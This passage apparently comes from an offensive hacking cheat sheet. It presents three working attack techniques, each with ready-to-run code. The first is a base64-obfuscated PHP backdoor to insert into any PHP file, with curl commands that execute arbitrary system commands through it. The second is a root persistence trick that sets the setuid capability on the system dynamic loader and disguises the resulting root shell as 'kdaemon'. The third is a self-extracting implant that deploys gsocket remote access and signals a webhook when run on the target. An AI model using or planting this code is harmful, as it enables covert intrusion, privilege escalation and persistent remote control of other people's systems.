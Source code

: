 <a id="carriage-return-backdoor"></a>
**6.iv. Smallest PHP Backdoor**

Add this line to the beginning of any PHP file:
```php
<?php $i=base64_decode("aWYoaXNzZXQoJF9QT1NUWzBdKSl7c3lzdGVtKCRfUE9TVFswXSk7ZGllO30K");eval($i);?>
```

Test the backdoor:
```sh
### 1. Optional: Start a test PHP server
cd /var/www/html && php -S 127.0.0.1:8080
### Without executing a command
curl http://127.0.0.1:8080/test.php
### With executing a command
curl http://127.0.0.1:8080/test.php -d 0="ps fax; uname -mrs; id"
```

<a id="ld-backdoor"></a>
**6.v. Local Root Backdoor**

Stay root once you got root
```bash
setcap cap_setuid+ep /lib/x86_64-linux-gnu/ld-linux-x86-64.so.2 2>/dev/null \
|| setcap cap_setuid+ep /lib64/ld-2.17.so 2>/dev/null \
|| echo >&2 "FAILED. File not found"
```
Become root
```bash
### Execute as non-root user
p="python"
command -v python3 >/dev/null && p="python3"
[[ -f /lib/x86_64-linux-gnu/ld-linux-x86-64.so.2 ]] && l="/lib/x86_64-linux-gnu/ld-linux-x86-64.so.2"
[[ -f /lib64/ld-2.17.so ]] && l="/lib64/ld-2.17.so"
exec "${l:?}" "$p" -c 'import os;os.setuid(0);os.execlp("bash", "kdaemon")'
```

<a id="implant"></a>
**6.vi. Self-Extracting implant**

Create a self-extracting shell-script using [mkegg.sh](https://github.com/hackerschoice/thc-tips-tricks-hacks-cheat-sheet/blob/master/tools/mkegg.sh) (see source for examples).

Simple example:
```sh
# Create implant 'egg.sh' containing the file 'foo'
# and the directory 'warez'. When executing 'egg.sh' then
# extract 'foo' and 'warez' and call 'warez/run/sh'
./mkegg.sh egg.sh foo warez warez/run.sh
```

Real world examples are best:
1. Create an implant that installs gsocket and calls our webhook on success:
```sh
./mkegg.sh egg.sh deploy-all.sh '(GS_WEBHOOK_KEY=e90d4b38-8285-490d-b5ab-a6d5c7c990a7 deploy-all.sh 2>/dev/null >/dev/null &)'
# On the target system do: 'cat egg.sh | bash' or './egg.sh'
```
